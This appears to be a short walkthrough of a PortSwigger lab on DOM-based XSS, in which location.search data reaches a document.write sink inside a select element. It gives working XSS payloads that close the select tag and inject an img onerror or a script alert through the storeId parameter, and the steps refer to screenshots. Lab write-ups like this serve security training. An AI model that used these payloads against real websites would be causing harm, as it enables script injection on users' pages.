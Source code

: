 # DOM XSS in `document.write` sink using source `location.search` inside a select element

## This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in the stock checker functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search` which you can control using the website URL. The data is enclosed within a select element.

## To solve this lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that breaks out of the select element and calls the `alert` function.

Pyaload are

`"></select><img src=1 onerror=alert(document.domain)>`
or
`"></select><script>alert(1)</script>`

`&storeId="></select><script>alert(1)</script>`

step1

![screenshot](./images/lab10_fetch_stock_price.png)

add &storeId=abcd into url

![screenshot](./images/lab10_modify_productid_stored_id.png)

use payload

![screenshot](./images/lab10_payload.png)

![screenshot](./images/lab10_payload_result.png)
